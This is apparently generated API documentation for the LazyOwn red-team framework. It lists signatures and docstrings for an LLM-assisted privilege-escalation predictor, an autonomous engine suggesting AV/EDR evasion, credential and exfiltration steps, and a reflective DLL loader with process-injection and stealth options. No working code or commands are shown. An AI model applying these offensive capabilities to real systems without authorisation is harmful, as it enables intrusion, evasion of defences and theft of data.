**File Doc:** *Crystal Ball — privilege escalation vector prediction engine.  Parses system enumeration output (linpeas, winpeas, pspy) and kernel information to generate a ranked list of specific privilege escalation vectors with exact commands.  When an LLM backend is available the engine also analyses the target context through the model to surface vectors that keyword-based scanners often miss (e.g. subtle cron races, PATH-based hijacks in non-standard locations, LXD group membership, Docker socket access, etc.).*

**Classes:**
- `PrivescVector` (line 97) `class PrivescVector` - *A single privilege escalation vector with ranked confidence.*
- `SystemProfile` (line 114) `class SystemProfile` - *Parsed target system profile used for vector matching.*

**Functions:**
- `_parse_kernel_version` (line 136) `def _parse_kernel_version(version_str)` - *Parse a kernel version string into a comparable tuple.

Args:
    version_str: Raw kernel version (e.g. '5.15.0-91-generic').

Returns:
    Numeric tuple for comparison (e.g. (5, 15, 0, 91)).*
- `_parse_version_from_range` (line 153) `def _parse_version_from_range(range_str)` - *Parse a min/max version string to a comparable tuple.

Args:
    range_str: Version range boundary string.

Returns:
    Numeric tuple.*
- `parse_linpeas_output` (line 165) `def parse_linpeas_output(text)` - *Extract a structured SystemProfile from linpeas output text.

Args:
    text: Raw linpeas.sh stdout.

Returns:
    Populated SystemProfile instance.*
- `parse_winpeas_output` (line 218) `def parse_winpeas_output(text)` - *Extract a structured SystemProfile from winpeas output text.

Args:
    text: Raw winpeas.exe stdout.

Returns:
    Populated SystemProfile instance.*
- `match_known_cves` (line 249) `def match_known_cves(profile)` - *Match kernel version against the built-in CVE database.

Args:
    profile: Parsed system profile with kernel_version set.

Returns:
    Matching privilege escalation vectors sorted by applicability.*
- `suid_vectors` (line 287) `def suid_vectors(profile)` - *Generate privilege escalation vectors from SUID binaries.

Args:
    profile: Parsed system profile.

Returns:
    Vectors for exploitable SUID binaries.*
- `capability_vectors` (line 361) `def capability_vectors(profile)` - *Generate privilege escalation vectors from Linux capabilities.

Args:
    profile: Parsed system profile with capabilities list.

Returns:
    Vectors based on dangerous capabilities.*
- `group_vectors` (line 463) `def group_vectors(profile)` - *Generate privilege escalation vectors from group memberships.

Args:
    profile: Parsed system profile with groups list.

Returns:
    Vectors based on special group memberships.*
- `sudo_vectors` (line 501) `def sudo_vectors(profile)` - *Generate privilege escalation vectors from sudo rules.

Args:
    profile: Parsed system profile with sudo rules.

Returns:
    Vectors for exploitable sudo configurations.*
- `cron_vectors` (line 578) `def cron_vectors(profile)` - *Generate vectors from writable cron jobs and PATH manipulation.

Args:
    profile: Parsed system profile.

Returns:
    Vectors based on cron misconfigurations.*
- `_load_gtfobins_map` (line 617) `def _load_gtfobins_map()` - *Load GTFOBins entries from the parquet knowledge base.

Returns:
    Mapping of binary name to description.*
- `_try_llm_analysis` (line 655) `def _try_llm_analysis(profile)` - *Use the configured LLM backend to suggest additional privesc vectors.

Args:
    profile: Parsed system profile.

Returns:
    LLM-suggested vectors, or empty list if no backend is available.*
- `analyze_privesc` (line 742) `def analyze_privesc(filepath, text)` - *Main entry point — analyse a system for privilege escalation vectors.

Args:
    filepath: Path to linpeas/winpeas output file.
    text: Raw enumeration output text (alternative to filepath).

Returns:
    Dict with system_profile and ranked vectors.*
- `format_crystal_ball_output` (line 827) `def format_crystal_ball_output(result)` - *Format the analysis result as a human-readable terminal report.

Args:
    result: Output from :func:`analyze_privesc`.

Returns:
    Formatted multi-line string with ANSI colours.*
- `main` (line 908) `def main()` - *CLI entry point for crystal ball privesc analysis.*

#### `professional_report.py`
**Path:** `modules/professional_report.py`
**File Doc:** *Professional Red Team Report Generator.  Produces client-ready pentest/red-team reports in HTML, PDF, and Markdown formats. Reads from the world model, session data, and credential stores to auto-generate structured findings with CVSS scores, evidence, and remediation recommendations.  Architecture: DataCollector -> FindingClassifier -> RiskScorer -> ReportAssembler -> OutputWriter  Output formats: HTML  — standalone responsive page with collapsible sections and dark mode. PDF   — via wkhtmltopdf (if available) or weasyprint. MD    — markdown for further editing or wiki integration. JSON  — machine-readable findings for API/CI integration.  Security: No credentials in rendered reports by default — only usernames and hashes are included if ``include_credentials`` is explicitly set.  Usage: from modules.professional_report import RedTeamReportGenerator gen = RedTeamReportGenerator() gen.generate(output_dir="reports/")*

**Classes:**
- `ReportFinding` (line 87) `class ReportFinding` - *A single security finding for the report.*
- `ReportMetadata` (line 102) `class ReportMetadata` - *Report header metadata.*
- `RedTeamReportGenerator` (line 114) `class RedTeamReportGenerator` - *Generate professional red team reports from session data.

Public methods:
    collect_data() -> dict
    classify_findings(data) -> list[ReportFinding]
    generate(output_dir, format) -> str*

**Methods:**
- `__init__` (line 173) `def __init__(self, include_credentials)`
- `collect_data` (line 179) `def collect_data(self)` - *Collect all available engagement data from sessions directory.

Returns:
    Dict with world_model, scan_data, credentials, sessions, timeline.*
- `classify_findings` (line 217) `def classify_findings(self, data)` - *Classify collected data into structured findings.

Args:
    data: Data dict from collect_data().

Returns:
    List of classified ReportFinding objects.*
- `generate` (line 244) `def generate(self, output_dir, output_format, client_name, engagement_type, with_ai, ai_backend)` - *Generate the report in the specified format.

Args:
    output_dir: Directory to write the report.
    output_format: One of html, pdf, md, json.
    client_name: Client name for the header.
    engagement_type: Engagement type string.
    with_ai: When True, draft the executive summary with the LLM
        backend (Groq/Ollama via ``llm_factory``).
    ai_backend: Backend id passed to ``llm_factory``.

Returns:
    Path to the generated report.*
- `_generate_html` (line 298) `def _generate_html(self, out_path, timestamp)` - *Generate an HTML report.

Args:
    out_path: Output directory path.
    timestamp: Timestamp string for filename.

Returns:
    Path to the generated HTML file.*
- `_generate_markdown` (line 450) `def _generate_markdown(self, out_path, timestamp)` - *Generate a Markdown report.

Args:
    out_path: Output directory path.
    timestamp: Timestamp string.

Returns:
    Path to the generated MD file.*
- `_generate_json` (line 513) `def _generate_json(self, out_path, timestamp)` - *Generate a JSON report.

Args:
    out_path: Output directory path.
    timestamp: Timestamp string.

Returns:
    Path to the generated JSON file.*
- `_html_to_pdf` (line 552) `def _html_to_pdf(self, html_path)` - *Convert HTML report to PDF.

Args:
    html_path: Path to HTML file.

Returns:
    Path to the generated PDF file.*
- `_classify_services` (line 585) `def _classify_services(self, services, hosts)` - *Classify service data into findings.

Args:
    services: List of service dicts from world model.
    hosts: List of host dicts.

Returns:
    List of ReportFinding objects from services.*
- `_classify_vulnerabilities` (line 640) `def _classify_vulnerabilities(self, vulns, hosts)` - *Classify vulnerability data into findings.

Args:
    vulns: List of vulnerability dicts.
    hosts: List of host dicts.

Returns:
    List of ReportFinding objects from vulns.*
- `_classify_credentials` (line 682) `def _classify_credentials(self, credentials, hosts)` - *Classify credential data into findings.

Args:
    credentials: List of credential lines.
    hosts: List of host dicts.

Returns:
    List of ReportFinding objects from credentials.*
- `_classify_sessions` (line 758) `def _classify_sessions(self, sessions, hosts)` - *Classify session data into findings.

Args:
    sessions: List of session dicts.
    hosts: List of host dicts.

Returns:
    List of ReportFinding objects from sessions.*
- `_load_json` (line 805) `def _load_json(self, filename)` - *Safely load a JSON file from sessions.

Args:
    filename: Filename relative to sessions dir.

Returns:
    Parsed dict or empty dict.*
- `_extract_scope` (line 822) `def _extract_scope(self, data)` - *Extract scope from engagement data.

Args:
    data: Engagement data dict.

Returns:
    List of scope strings.*
- `collect_command_history` (line 841) `def collect_command_history(self, max_entries)` - *Collect operator command history for the engagement timeline.

Sources: ``LazyOwn_history.dat`` and ``sessions/*.log`` tails.

Args:
    max_entries: Maximum history lines to keep.

Returns:
    Ordered command history lines.*
- `collect_loot_summary` (line 865) `def collect_loot_summary(self)` - *Summarize exfiltrated loot without embedding sensitive content.

Scans ``sessions/`` loot artefacts (QuantumVault output, credential
files, uploads) counting files and bytes per category. File names
are kept, file contents are never included.

Returns:
    Dict with counts and total bytes per loot category.*
- `_accumulate_loot` (line 893) `def _accumulate_loot(self, summary, path)` - *Accumulate one loot file into the summary counters.

Args:
    summary: Mutable loot summary dict.
    path: Loot file path.*
- `generate_executive_summary` (line 911) `def generate_executive_summary(self, data, with_ai, ai_backend)` - *Build the executive summary in business language.

Without AI this renders a deterministic template from finding
counts, loot stats, and command history depth. With ``with_ai``
the same context is sent to the ``llm_factory`` backend
(Groq/Ollama) to draft financial-risk prose; any backend failure
falls back to the template so reporting never blocks.

Args:
    data: Engagement data dict from ``collect_data``.
    with_ai: Draft prose with the LLM backend.
    ai_backend: Backend id for ``llm_factory``.

Returns:
    Executive summary string.*
- `_ai_draft_summary` (line 956) `def _ai_draft_summary(self, data, fallback, backend)` - *Draft the executive summary with the configured LLM backend.

Args:
    data: Engagement data dict.
    fallback: Template text included as grounding context.
    backend: Backend id for ``llm_factory``.

Returns:
    LLM-drafted summary, or empty string on failure.*

#### `reactive_engine.py`
**Path:** `modules/reactive_engine.py`
**File Doc:** *modules/reactive_engine.py =========================== Parses command output and produces concrete next-action recommendations: - PrivEsc advice (GTFOBins / LOLBas / lazyaddons YAML) - Evasion advice when AV/EDR signatures detected in output - Parquet technique lookup (Atomic Red Team + MITRE) - Output-driven state inference (new creds, new host, shells)  Design (SOLID) -------------- - Single Responsibility : OutputParser, PrivescAdvisor, EvasionAdvisor, ParquetLookup each own one concern. - Open/Closed           : new signal detectors via new SignalMatcher subclass. - Liskov                : all SignalMatcher subclasses honour Optional[Signal]. - Interface Segregation : ReactiveEngine exposes only analyse() to callers. - Dependency Inversion  : ReactiveEngine depends on AbstractSignalMatcher.*

**Classes:**
- `Signal` (line 69) `class Signal` - *A detected indicator in command output.*
- `ReactiveDecision` (line 80) `class ReactiveDecision` - *What the autonomous loop should do next given the signals.*
- `AbstractSignalMatcher` (line 97) `class AbstractSignalMatcher(ABC)`
- `AVBlockedMatcher` (line 102) `class AVBlockedMatcher(AbstractSignalMatcher)` - *Detects AV/EDR blocking patterns in tool output.*
- `CredentialFoundMatcher` (line 147) `class CredentialFoundMatcher(AbstractSignalMatcher)` - *Detects credentials in command output.*
- `PrivescHintMatcher` (line 174) `class PrivescHintMatcher(AbstractSignalMatcher)` - *Detects indicators that privesc may be possible.*
- `NewHostMatcher` (line 209) `class NewHostMatcher(AbstractSignalMatcher)` - *Detects new IP addresses in command output.*
- `ServiceVersionMatcher` (line 232) `class ServiceVersionMatcher(AbstractSignalMatcher)` - *Extracts service version strings for exploit matching.*
- `ShellErrorMatcher` (line 262) `class ShellErrorMatcher(AbstractSignalMatcher)` - *Detects tool errors that warrant switching techniques.*
- `LateralOpportunityMatcher` (line 293) `class LateralOpportunityMatcher(AbstractSignalMatcher)` - *Detects opportunities for lateral movement in command output.*
- `DataOfInterestMatcher` (line 323) `class DataOfInterestMatcher(AbstractSignalMatcher)` - *Detects data of interest for exfiltration in command output.*
- `ParquetAdvisor` (line 389) `class ParquetAdvisor` - *Queries parquet DBs for binary-based privesc and LOLBas opportunities.
Gracefully returns [] when pandas or parquet files are unavailable.*
- `EvasionAdvisor` (line 481) `class EvasionAdvisor` - *Maps detected AV/EDR signals to concrete LazyOwn evasion commands.
Uses lazyaddons YAML (adversary_yaml) for Windows; native commands for Linux.*
- `PrivescAdvisor` (line 537) `class PrivescAdvisor` - *Suggests privilege escalation commands based on:
- detected privesc hints in output
- platform (linux vs windows)
- GTFOBins / LOLBas parquet lookup
- lazyaddons YAML (adversary_yaml)*
- `SemanticContextAdvisor` (line 632) `class SemanticContextAdvisor` - *Suggest follow-up commands by semantic similarity to past sessions.

Last-resort hint that only fires when the regex-based matchers and
advisors produce nothing useful. Relies on
:class:`modules.session_rag.SessionRAG` (ChromaDB when available,
keyword fallback otherwise) so it carries no extra runtime
dependency. When the RAG layer is missing or the operator disabled
it via ``payload.json[reactive_semantic_enabled]``, the advisor
silently returns an empty list — never breaking the regex pipeline.*
- `ReactiveEngine` (line 804) `class ReactiveEngine` - *Analyses command output and produces prioritised ReactiveDecisions.
Wire into the auto_loop after each step to close the reasoning cycle.*

**Functions:**
- `_default_config_loader` (line 42) `def _default_config_loader()` - *Return the contents of ``payload.json`` as a dictionary.

Imports are performed lazily so the reactive engine still loads in
environments where ``core.config`` is not yet wired (early
bootstrap, isolated unit tests). Any failure falls back to an empty
dictionary, which behaves as "feature enabled by default" for
:class:`SemanticContextAdvisor`.*
- `get_engine` (line 977) `def get_engine()`

**Methods:**
- `match` (line 99) `def match(self, output, context)`
- `match` (line 128) `def match(self, output, context)`
- `match` (line 159) `def match(self, output, context)`
- `match` (line 192) `def match(self, output, context)`
- `match` (line 214) `def match(self, output, context)`
- `match` (line 247) `def match(self, output, context)`
- `match` (line 276) `def match(self, output, context)`
- `match` (line 307) `def match(self, output, context)`
- `match` (line 349) `def match(self, output, context)`
- `__init__` (line 395) `def __init__(self, root)`
- `_load` (line 402) `def _load(self)`
- `gtfobins_for` (line 421) `def gtfobins_for(self, binary)`
- `lolbas_for` (line 434) `def lolbas_for(self, binary)` - *Returns [(function_name, att&ck_technique), ...].*
- `technique_commands_for` (line 448) `def technique_commands_for(self, platform, keyword)` - *Return atomic test commands for platform matching keyword.*
- `suggest` (line 504) `def suggest(self, signals, platform)`
- `suggest` (line 565) `def suggest(self, signals, platform, parquet)`
- `__init__` (line 644) `def __init__(self, rag, config_loader, min_score, query_limit)` - *Initialise the advisor.

Args:
    rag: Optional pre-built RAG instance. Injected in tests; in
        production the singleton from ``modules.session_rag`` is
        loaded lazily on first :meth:`suggest` call.
    config_loader: Callable returning a payload dictionary. Used
        only to gate the advisor via
        :data:`SEMANTIC_PAYLOAD_KEY`. Falsy return values disable
        the advisor for that call.
    min_score: Minimum cosine similarity score to keep a hit.
    query_limit: Maximum number of RAG hits to request per call.*
- `_load_rag` (line 671) `def _load_rag(self)` - *Resolve the RAG singleton on first use.

Returns:
    The shared :class:`SessionRAG` instance, or ``None`` when the
    module cannot be imported.*
- `_enabled` (line 697) `def _enabled(self)` - *Return whether the operator has the advisor turned on.

When no config loader is wired, the advisor is assumed enabled.
When the loader raises or the key is absent, defaults to
enabled to preserve the historical "best-effort hints" UX.*
- `_extract_verb` (line 715) `def _extract_verb(source)` - *Pull the originating command verb from a ``command_*`` filename.

Args:
    source: Relative path returned by the RAG hit, typically
        ``logs/command_<verb>output<domain>.txt``.

Returns:
    The extracted verb, or the empty string when the path does
    not follow the expected pattern.*
- `suggest` (line 734) `def suggest(self, output, command, platform, context)` - *Return semantic next-step hints derived from past sessions.

Args:
    output: Raw stdout+stderr from the executed command.
    command: The command that produced *output*.
    platform: Target platform tag (informational; not currently
        used to filter hits).
    context: Reserved for future extensions.

Returns:
    Zero or more :class:`ReactiveDecision` with action
    ``"suggest_next"`` and priority
    :data:`SEMANTIC_PRIORITY` so regex-based decisions always
    outrank the semantic hint.*
- `__init__` (line 810) `def __init__(self, matchers, evasion, privesc, parquet, semantic)`
- `analyse` (line 835) `def analyse(self, output, command, platform, context)` - *Parse *output* and return prioritised ReactiveDecisions.

Parameters
----------
output   : raw stdout+stderr from the executed command
command  : the command that produced the output (for context)
platform : "linux", "windows", or "unknown"
context  : dict with optional keys: known_hosts, credentials, phase*
- `top_decision` (line 958) `def top_decision(self, output, command, platform, context)` - *Return only the single highest-priority decision, or None.*

#### `recommender.py`
**Path:** `modules/recommender.py`
**File Doc:** *LazyOwn Smart Command Recommender =================================== Reads the current session state and asks Groq to rank the best 3-5 next LazyOwn commands, with confidence scores and reasoning.  Output written to: sessions/recommendations/next_actions.json  Public API: recommend(state: dict | None, api_key: str) -> list[dict] Returns ranked recommendations: [{"command": "smbmap", "confidence": 0.95, "reason": "...", "args": "-H {rhost}"}]  recommend_and_save(api_key: str) -> list[dict] Builds state, calls Groq, writes JSON, returns list.*

**Functions:**
- `_build_user_prompt` (line 55) `def _build_user_prompt(state)`
- `_call_ai` (line 97) `def _call_ai(api_key, user_prompt)`
- `recommend` (line 143) `def recommend(state, api_key)` - *Return ranked recommendations without writing to disk.*
- `recommend_and_save` (line 163) `def recommend_and_save(api_key)` - *Build state → call Groq → write JSON → return recommendations.*

#### `redteam_gym.py`
**Path:** `modules/redteam_gym.py`
**File Doc:** *Red Team Gym — gamified pentest training mode.  Integrates with the existing ELO/karma system in :mod:`cli.engagement_hooks` and extends :mod:`cli.commands.lab` Docker scenarios with challenge objectives, scoring, and leaderboards.  Each challenge defines a specific objective, success criteria, a time-based speed score, a stealth score (based on techniques that avoid EDR triggers), and a technique-diversity bonus.  Completion awards bonus ELO that is added via the existing ``aumentar_elo`` / ``_award_elo`` pipeline.*

**Classes:**
- `GymAttempt` (line 282) `class GymAttempt` - *A single challenge attempt with scoring.*

**Functions:**
- `_ensure_gym_dir` (line 298) `def _ensure_gym_dir()` - *Create the gym data directory.*
- `_load_leaderboard` (line 303) `def _load_leaderboard()` - *Load the persistent leaderboard.

Returns:
    Dict mapping operator name to stats.*
- `_save_leaderboard` (line 319) `def _save_leaderboard(board)` - *Persist the leaderboard.

Args:
    board: Leaderboard data dict.*
- `_get_username` (line 330) `def _get_username()` - *Get the current operator username from the CLI auth session.

Returns:
    Username string, falling back to 'anonymous'.*
- `list_challenges` (line 357) `def list_challenges()` - *Return all defined gym challenges with metadata.

Returns:
    Dict mapping challenge ID to definition.*
- `start_challenge` (line 378) `def start_challenge(challenge_id)` - *Begin a gym challenge and track start time.

Args:
    challenge_id: ID from GYM_CHALLENGE_DEFINITIONS.

Returns:
    Dict with challenge info and started status.*
- `submit_challenge` (line 448) `def submit_challenge(techniques_used, success)` - *Submit a completed challenge for scoring.

Args:
    techniques_used: List of technique identifiers used.
    success: Whether the challenge was completed successfully.

Returns:
    Dict with score breakdown and leaderboard position.*
- `_calc_speed_score` (line 533) `def _calc_speed_score(elapsed_seconds, max_bonus)` - *Calculate speed score — faster = higher.

Args:
    elapsed_seconds: Time taken in seconds.
    max_bonus: Maximum possible speed bonus.

Returns:
    Speed score (0 to max_bonus).*
- `_calc_stealth_score` (line 554) `def _calc_stealth_score(techniques, max_bonus)` - *Calculate stealth score — fewer noisy techniques = higher.

Args:
    techniques: List of technique identifiers used.
    max_bonus: Maximum bonus points.

Returns:
    Stealth score (0 to max_bonus).*
- `_calc_technique_score` (line 570) `def _calc_technique_score(techniques, chal, max_bonus)` - *Calculate technique diversity score.

Args:
    techniques: List of technique identifiers used.
    chal: Challenge definition.
    max_bonus: Maximum diversity bonus.

Returns:
    Diversity score (0 to max_bonus).*
- `_update_leaderboard` (line 592) `def _update_leaderboard(attempt)` - *Update the persistent leaderboard with a completed attempt.

Args:
    attempt: Completed gym attempt.*
- `_award_gym_elo` (line 636) `def _award_gym_elo(username, elo_bonus)` - *Award ELO to the user via the existing engagement hooks system.

Args:
    username: Operator username.
    elo_bonus: ELO delta to award.*
- `_get_rank` (line 662) `def _get_rank(username)` - *Get the leaderboard rank for a user.

Args:
    username: Operator username.

Returns:
    1-indexed rank position.*
- `show_leaderboard` (line 679) `def show_leaderboard(top_n)` - *Return the top N players from the leaderboard.

Args:
    top_n: Maximum number of entries to return.

Returns:
    List of leaderboard entries sorted by total_score descending.*
- `get_active_challenge` (line 706) `def get_active_challenge()` - *Return the currently active challenge for this operator, if any.

Returns:
    Active challenge dict or None.*
- `record_external_attempt` (line 736) `def record_external_attempt(challenge_id, success, elo_bonus, techniques)` - *Record a scored attempt for a challenge not defined in the catalog.

Lets external modules (for example the ExploitGym integration) feed the
shared ELO/leaderboard pipeline without requiring a challenge
definition or an active in-flight challenge.

Args:
    challenge_id: Identifier recorded on the leaderboard (e.g.
        ``exploitgym:<task_id>``).
    success: Whether the attempt succeeded.
    elo_bonus: ELO delta to award on success (``0`` on failure).
    techniques: Technique identifiers used.

Returns:
    Dict with ``success``, ``challenge``, ``completed``, ``elo_awarded``
    and ``rank``.*
- `main` (line 790) `def main()` - *CLI entry point — show gym leaderboard from command line.*

#### `reflective_dll.py`
**Path:** `modules/reflective_dll.py`
**File Doc:** *Reflective DLL loading — load PE from memory without touching disk.  Implements manual PE parsing, import resolution, relocations, and DllMain invocation. Supports five injection techniques: CreateRemoteThread, NtCreateThreadEx, QueueUserAPC, SetWindowsHookEx, and thread hijacking.  All operations use raw bytes — no LoadLibrary or GetProcAddress for the target DLL. Designed for in-process or cross-process reflection.*

**Classes:**
- `PEHeader` (line 37) `class PEHeader` - *Parsed portable executable header fields.

Attributes:
    machine: Target CPU architecture.
    number_of_sections: Count of section headers.
    size_of_optional_header: Bytes of optional header.
    characteristics: DLL/EXE flags.
    entry_point_rva: Relative virtual address of entry.
    image_base: Preferred load address.
    section_alignment: Memory section alignment.
    file_alignment: Disk section alignment.
    size_of_image: Total image size in memory.
    size_of_headers: Combined header size.
    subsystem: GUI/CUI/NATIVE subsystem.
    dll_characteristics: ASLR, DEP, etc.*
- `DataDirectory` (line 70) `class DataDirectory` - *PE data directory entry.

Attributes:
    virtual_address: RVA of the directory data.
    size: Size of the directory data in bytes.*
- `SectionHeader` (line 83) `class SectionHeader` - *Parsed PE section header.

Attributes:
    name: Section name (max 8 chars).
    virtual_address: RVA of section in memory.
    virtual_size: Size of section in memory.
    raw_data_offset: File offset of section data.
    raw_data_size: Size of raw section data.
    characteristics: Section flags (executable, writable, readable).*
- `ImportDescriptor` (line 104) `class ImportDescriptor` - *Parsed import directory entry.

Attributes:
    dll_name: Name of the imported DLL.
    function_names: List of imported function names or ordinals.
    original_first_thunk_rva: RVA of the import lookup table.
    first_thunk_rva: RVA of the import address table.*
- `ReflectiveLoaderConfig` (line 121) `class ReflectiveLoaderConfig` - *Configuration for reflective DLL loading.

Attributes:
    target_process_id: PID to inject into (0 for self-injection).
    injection_technique: createremotethread, ntcreatethreadex, queueuserapc,
        setwindowshookex, threadhijack.
    injection_entry: Export name / ordinal to call after loading.
    injection_args: Argument bytes to pass to the entry point.
    erase_headers: Zero out PE headers post-load for stealth.
    unhook_ntdll: Restore clean ntdll.dll from disk before loading.*
- `PEParser` (line 142) `class PEParser` - *Parse a portable executable from raw bytes for manual loading.

Extracts DOS header, NT headers, section table, import table,
export table, and base relocations without using LoadLibrary.*
- `ReflectiveLoader` (line 464) `class ReflectiveLoader` - *Plan reflective DLL load strategy and generate shellcode wrappers.

Produces Python instructions, C stubs, or PowerShell scripts that
implement reflective loading for operator use. Does not perform the
actual load (that requires native execution on target).

Attributes:
    parser: PEParser instance with parsed PE data.
    file_header: Extracted PEHeader.
    sections: List of SectionHeader.
    data_dirs: List of DataDirectory (16 entries).
    imports: Parsed import descriptors.
    relocations: Parsed base relocations.
    exports: Parsed export table.*

**Methods:**
- `__init__` (line 151) `def __init__(self, pe_data)`
- `parse_file_header` (line 166) `def parse_file_header(self)` - *Extract the COFF file header.

Returns:
    PEHeader with machine, sections, and characteristics.*
- `parse_sections` (line 208) `def parse_sections(self, num_sections)` - *Parse all section headers from the PE.

Args:
    num_sections: Number of sections from the file header.

Returns:
    List of SectionHeader objects.*
- `parse_data_directories` (line 243) `def parse_data_directories(self, num_entries)` - *Parse the PE data directory entries.

Args:
    num_entries: Number of directory entries (default 16).

Returns:
    List of DataDirectory objects.*
- `rva_to_offset` (line 265) `def rva_to_offset(self, rva, sections)` - *Convert a relative virtual address to a file offset.

Args:
    rva: Relative virtual address.
    sections: Parsed section table.

Returns:
    File offset or -1 if the RVA doesn't map.*
- `parse_imports` (line 280) `def parse_imports(self, import_dir, sections)` - *Parse the import directory to enumerate imported DLLs and functions.

Args:
    import_dir: IMAGE_DIRECTORY_ENTRY_IMPORT data directory.
    sections: Parsed section table.

Returns:
    List of ImportDescriptor objects.*
- `parse_relocations` (line 326) `def parse_relocations(self, reloc_dir, sections)` - *Parse base relocation entries.

Args:
    reloc_dir: IMAGE_DIRECTORY_ENTRY_BASERELOC data directory.
    sections: Parsed section table.

Returns:
    List of (offset, type) tuples for relocation fixups.*
- `parse_exports` (line 374) `def parse_exports(self, export_dir, sections)` - *Parse the export directory.

Args:
    export_dir: IMAGE_DIRECTORY_ENTRY_EXPORT data directory.
    sections: Parsed section table.

Returns:
    Dict mapping export name to RVA.*
- `_read_asciiz_at_rva` (line 417) `def _read_asciiz_at_rva(self, rva, sections)`
- `_parse_thunk_names` (line 426) `def _parse_thunk_names(self, thunk_rva, sections)`
- `is_64bit` (line 456) `def is_64bit(self)`
- `raw_data` (line 460) `def raw_data(self)`
- `__init__` (line 492) `def __init__(self, pe_data, config)`
- `sha256` (line 505) `def sha256(self)` - *SHA-256 hash of the raw PE bytes.*
- `architecture` (line 510) `def architecture(self)` - *CPU architecture string ('x64' or 'x86').*
- `required_imports` (line 515) `def required_imports(self)` - *DLL names needed for import resolution.*
- `plan_injection` (line 526) `def plan_injection(self)` - *Generate an injection plan based on the configured technique.

Returns:
    Dict with technique, process_id, entry_point, and required steps.*
- `generate_c_stub` (line 588) `def generate_c_stub(self)` - *Generate a C stub that implements reflective loading.

Returns:
    C source code string with reflective loader logic.*
- `generate_powershell_stub` (line 666) `def generate_powershell_stub(self)` - *Generate PowerShell reflective loader script.

Returns:
    PowerShell script for .NET Assembly.Load reflectively.*
- `summarize` (line 685) `def summarize(self)` - *Human-readable summary of the parsed PE for operator review.

Returns:
    Dict with architecture, imports, sections, exports, and hashes.*

#### `resource_script.py`
**Path:** `modules/resource_script.py`
**File Doc:** *Enhanced resource script engine — variables, conditionals, loops, macros.  Extends LazyOwn's existing ``.ls`` script format with:  - ``set <var> <value>`` — set a local variable - ``setg <var> <value>`` — set a global variable (persists in shell params) - ``unset <var>`` — remove a variable - ``if <condition>`` / ``else`` / ``endif`` — conditional execution - ``while <condition>`` / ``endwhile`` — loop until condition is false - ``for <var> in <items>`` / ``endfor`` — iterate over space-separated items - ``break`` / ``continue`` — loop control inside while/for bodies - ``macro <name> <args>`` / ``endmacro`` / ``call <name> <args>`` — reusable blocks - ``spool <file>`` / ``spool off`` — log output to file - ``sleep <seconds>`` — pause execution - ``echo <message>`` — print a message - ``comment <text>`` — inline comment (also ``#`` lines) - Variable substitution: ``$var`` or ``${var}`` anywhere in command lines  Conditions (``if`` / ``while``) support real expressions:  - ``$a == $b`` / ``$a != $b`` — string equality after substitution - ``$a =~ pattern`` / ``$a !~ pattern`` — regex search / negated - ``$a > $b`` and friends (``>=``, ``<``, ``<=``) — numeric when both operands parse as numbers, string order otherwise - ``$a contains text`` — substring test - ``defined $var`` — true when the variable exists and is non-empty - anything else falls back to truthiness: empty, ``false``, ``0``, ``no`` and ``off`` are false; every other value is true  Built-in variables: ``$rhost``, ``$lhost``, ``$lport``, ``$domain``,*

**Classes:**
- `ScriptError` (line 76) `class ScriptError(RuntimeError)` - *Raised when a resource script encounters a fatal error.*
- `ScriptContext` (line 82) `class ScriptContext` - *Runtime context for a single resource script execution.

Tracks local/global variables, macro definitions, nesting state,
and the spool file.*
- `ResourceScriptEngine` (line 268) `class ResourceScriptEngine` - *Parses and executes enhanced resource scripts.

Args:
    context: A :class:`ScriptContext` providing variable scope and
        command execution callbacks.*

**Functions:**
- `_repl` (line 125) `def _repl(m)`

**Methods:**
- `__init__` (line 89) `def __init__(self, shell_params, on_command, on_print)`
- `_resolve` (line 124) `def _resolve(self, text)`
- `print` (line 138) `def print(self, msg)`
- `run_command` (line 147) `def run_command(self, cmd)`
- `_skip` (line 165) `def _skip(self)`
- `_lookup` (line 168) `def _lookup(self, name)` - *Return the raw (unresolved) value of ``name`` or ``None``.*
- `_resolve_operand` (line 183) `def _resolve_operand(self, operand)` - *Resolve one condition operand, treating unresolved vars as empty.*
- `eval_condition` (line 191) `def eval_condition(self, raw_condition)` - *Evaluate an ``if``/``while`` condition expression.

Supports ``==``, ``!=``, ``=~``, ``!~``, ``>``, ``>=``, ``<``,
``<=``, ``contains`` and ``defined``; anything else falls back to
plain truthiness of the substituted text. Substitution happens per
operand so ``if $a == $b`` compares values instead of evaluating
the literal string ``"x == y"`` (which is always truthy).*
- `_compare` (line 220) `def _compare(left, op, right)` - *Apply one comparison operator to two resolved operands.*
- `_jump_past` (line 251) `def _jump_past(self, open_res, close_re)` - *Move ``_pos`` past the matching close token, honouring nesting.*
- `__init__` (line 276) `def __init__(self, context)`
- `execute` (line 279) `def execute(self, script_path)` - *Load and run a script file.

Args:
    script_path: Path to the ``.ls`` or resource script file.

Raises:
    ScriptError: On parse/execution errors.
    FileNotFoundError: When the script does not exist.*
- `execute_lines` (line 293) `def execute_lines(self, lines, source)` - *Execute a list of script lines.

Args:
    lines: Script lines (may include trailing newlines).
    source: Source name for error messages.

Raises:
    ScriptError: On parse/execution errors.*
- `execute_string` (line 327) `def execute_string(self, script)` - *Execute a script string (split on newlines).*
- `_extract_macros` (line 331) `def _extract_macros(self, lines)`
- `_execute_line` (line 347) `def _execute_line(self, raw)`
- `_call_macro` (line 537) `def _call_macro(self, name, args)`

#### `rich_tui.py`
**Path:** `modules/rich_tui.py`
**File Doc:** *Rich-based live TUI dashboard for LazyOwn campaign monitoring.  Provides an htop-style real-time dashboard that consumes data from modules.dashboard_engine.DashboardEngine and renders a terminal UI using the Python rich library.*

**Classes:**
- `RichDashboard` (line 66) `class RichDashboard` - *Rich-based live TUI dashboard for LazyOwn campaign monitoring.

Attributes:
    live: When True, operates in non-blocking mode and returns snapshot
          data without running the interactive refresh loop.*

**Methods:**
- `__init__` (line 74) `def __init__(self, dashboard_engine, refresh_interval, live)` - *Initialize the Rich dashboard.

Args:
    dashboard_engine: DashboardEngine instance for data sourcing.
    refresh_interval: Seconds between refreshes in blocking mode.
    live: Non-blocking mode when True. run() returns snapshot data
          without entering the interactive loop.*
- `run` (line 96) `def run(self)` - *Run the dashboard.

Returns:
    If live=True, returns the built snapshot dict.
    Otherwise blocks until user quits (q key) and returns None.*
- `stop` (line 132) `def stop(self)` - *Gracefully shut down the dashboard and restore terminal state.*
- `_render` (line 137) `def _render(self)` - *Build a fresh snapshot and return the full frame layout.

Returns:
    Rich Layout object for the complete dashboard frame.*
- `_keyboard_listener` (line 146) `def _keyboard_listener(self)` - *Thread target that listens for keyboard input in raw terminal mode.*
